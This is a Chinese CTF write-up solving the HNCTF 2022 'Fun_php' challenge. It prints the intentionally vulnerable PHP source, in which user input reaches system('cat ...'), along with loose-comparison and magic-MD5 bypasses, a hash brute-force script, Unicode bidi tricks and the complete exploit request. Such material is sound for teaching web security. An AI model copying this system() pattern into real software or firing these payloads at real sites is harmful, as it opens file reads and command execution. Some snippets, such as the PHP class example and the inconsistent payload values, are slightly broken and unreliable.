


[NSSCTF] WP 6
===
## [HNCTF 2022 WEEK3] Fun_php

开门源码, 应该是一个经典的 php 特性 byss 题目:

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include "k1y.php";
include "fl4g.php";
$week_1 = false;
$week_2 = false;

$getUserID = @$_GET['user']; 
$getpass = (int)@$_GET['pass']; 
$getmySaid = @$_GET['mySaid']; 
$getmyHeart = @$_GET['myHeart']; 

$data = @$_POST['data'];
$verify =@$_POST['verify'];
$want = @$_POST['want'];
$final = @$_POST['final'];

if("Welcom"==0&&"T0"==0&&"1he"==1&&"HNCTF2022"==0)
    echo "Welcom T0 1he HNCTF2022<BR>";

if("state_HNCTF2022" == 1) echo $hint;
    else echo "HINT? NoWay~!<BR>";


if(is_string($getUserID))
    $user = $user + $getUserID; //u5er_D0_n0t_b3g1n_with_4_numb3r

if($user == 114514 && $getpass == $pass){
    if (!ctype_alpha($getmySaid)) 
        die();
    if (!is_numeric($getmyHeart)) 
        die();
    if(md5($getmySaid) != md5($getmyHeart)){
        die("Cheater!");
    }
    else
        $week_1 = true;
}

if(is_array($data)){
    for($i=0;$i<count($data);$i++){

        if($data[$i]==="Probius") exit();

        $data[$i]=intval($data[$i]);
    }
    if(array_search("Probius",$data)===0)
        $week_2 = true;

    else
        die("HACK!");
}
if($week_1 && $week_2){
    if(md5($data)===md5($verify))
        // ‮⁦HNCTF⁩⁦Welcome to
        if ("hn" == $_GET['hn'] &‮⁦+!!⁩⁦& "‮⁦ Flag!⁩⁦ctf" == $_GET[‮⁦LAG⁩⁦ctf]) { //HN! flag!! F
        
            if(preg_match("/php|\fl4g|\\$|'|\"/i",$want)Or is_file($want))
                die("HACK!");
       
                else{
                    echo "Fine!you win";
                    system("cat ./$want");
                 }
    }
    else
        die("HACK!");
}

?>
```

### PHP 加法的类型转换

超全局变量 `$_GET[]` 中传入值永远默认是**字符串类型**, 而 PHP 加法的时候会尝试从字符串等内容中读取数值:

1. (可能带小数点的) 规范数字表述

    例如 `$a = '1.0'`, 运算时 `$a => 1.0`;

2. 布尔型

    例如 `$a = 'true' => 1`, `$b = 'false' => 0`

3. 带有非数字内容的字符串

    php 会尝试从字符串首部读入数字, 直到读入任何非法字符, 例如:

    ```php
    $a = 3142abc => 3142
    $a = 3abc142 => 3
    $a = 3.14abc2 => 3.14
    ```

    需要注意的是, **数字 + `e` + 数字** 可以被解析为**科学计数法**, 也是合法输入:

    ```php
    $a = 2e-3xyz => 2 x 10^(-3) => 0.002
    ```

4. 对象

    原则上来说对象不能直接参与运算, 会抛出异常, 但是如果对象配置了 `__toString()` 魔术方法, 则会先转为方法内的字符串, 再按照上面的规则参与运算:

    例如假设有这么个对象:

    ```php
    <?php
        class C{
            function __toString() {
        return '100a1';
        }

        $c = new C();
        echo $c + 0;
    >
    ```

    结果是 `$c.__toString() + 0 => '100a1' + 0 => 100`;

因此此处要令结果为 `114514`, 只需要传入 `114514` 即可;

### MD5 弱碰撞

#### 弱比较

这里首先要两个函数, 分别要求:

- `(!ctype_alpha($getmySaid))`: 要求传入全字母;
- `(!is_numeric($getmyHeart))`: 要求传入数字或者数字字符串;

此处有两种碰撞方案:

1. 固定其中一个, 例如全字母的这个变量, 然后对另一个进行穷举, 直到两者符合弱相等;

2. 注意此处 md5 值为弱比较, 按照两者各自的规则对两个变量同时进行枚举, 直到找到 md5 值都为 `0e + 数字` 的变量; 
   
   > 此处利用的原理是弱比较时, `0e` 开头 + 数字的变量都会被科学计数法解析转化为 0 从而实现;

显然方案 2 更简单;

#### 枚举

枚举脚本:

```python
import hashlib
import random
import string

def random_string(min_len=5, max_len=12):
    """生成随机字符串（字母+数字）"""
    length = random.randint(min_len, max_len)
    return ''.join(random.choices(string.ascii_lowercase + string.digits, k=length))

def is_magic_md5(md5_hash: str) -> bool:
    """判断 md5 是否满足魔术哈希条件: '0e' + 全数字"""
    return md5_hash.startswith("0e") and md5_hash[2:].isdigit()

attempts = 0

while True:
    s = random_string()
    md5_hash = hashlib.md5(s.encode()).hexdigest()
    attempts += 1

    if is_magic_md5(md5_hash):
        print(f"[+] Found: {s} -> {md5_hash}")
        print(f"Attempts: {attempts}")
        break

    # 每 10000 次打印一次进度
    if attempts % 10000 == 0:
        print(f"...{attempts} tries")
```

也可以用一个经常用到的碰撞字符串: `QNKCDZO` 。

> 常用 md5 弱比较为 0 的魔术值:
> QNKCDZO (全大写字母),  240610708 (全数字), 0e215962017(科学计数法, 并且 md5 仍与自身弱相等)

### 数组绕过

接下来这段函数看起来很吓人, 两段搜索, 第一段搜索禁止传入 'Probius' 这个字符串, 也就是不能含有这个字符串; 而第二段这个搜索函数 `array_search()` 的特点是**宽松比较**。

> PHP 手册: [array_search 函数](https://www.php.net/manual/zh/function.array-search.php)

简单来说, `array($a, $data)` 这段代码的本质是从前往后读数组 `$data`, 对每一位都做 `if $a == $data` 的**弱比较**, 那么此处的字符串 'Probius' 在字符串弱比较时会被转换为 0 , 只要传一个满足同样条件的值就行;

之后的 `md5($data)===md5($verify)` , 只需要利用传两个数组, 均抛回异常 (`False`) 的特性即可, payload:

```
(POST)
verify[]=0&data[0]=0probius
```

### unicode 隐藏字符

接下来这处代码有 unicode 隐藏字符:



```php
"[U+202E][U+2066] Flag![U+2069][U+2066]ctf" == $_GET[[U+202E][U+206E]LAG[2069][2066]ctf]
```

用 python 快速转 url 编码:

```python
import urllib.parse
s = "\u202e\u2066LAG\u2069\u2066ctf"
# s = "\u202e\u2066 Flag!\u2069\u2066ctf"
print(urllib.parse.quote(s, safe=''))
```

还有个取巧简单的办法, 打开 vscode 的不可见字符显示, 然后拷贝进去处理就行, 这样最快。

```
(GET)
hn=hn&%E2%80%AE%E2%81%A6LAG%E2%81%A9%E2%81%A6ctf=%E2%80%AE%E2%81%A6%20Flag!%E2%81%A9%E2%81%A6ctf
```

### cat 指令绕过

最后这段绕过:

```php
if ("hn" == $_GET['hn'] && "ctf" ==$_GET['ctf']) { //HN! flag!! F
    if(preg_match("/php|\fl4g|\\$|'|\"/i",$want)Or is_file($want))
        die("HACK!");

        else{
            echo "Fine!you win";
            system("cat ./$want");
            } 
}
```

这里利用 `cat` 的通配符支持即可; `cat` 支持 `?` 和 `*` 匹配; 由于 **`*` 支持任意长度, `?` 仅支持单位**, 这里用 `*`

payload:

```
(POST)
want=fl*
或者
want=fl4?????
```

最终:

```
(GET)
/?user=114514&mySaid=QNKCDZO&myHeart=0e215962017&hn=hn&%E2%80%AE%E2%81%A6LAG%E2%81%A9%E2%81%A6ctf=%E2%80%AE%E2%81%A6%20Flag!%E2%81%A9%E2%81%A6ctf HTTP/1.1

(POST)
data[]=Probiu&verify[]=1&want=fl*
```



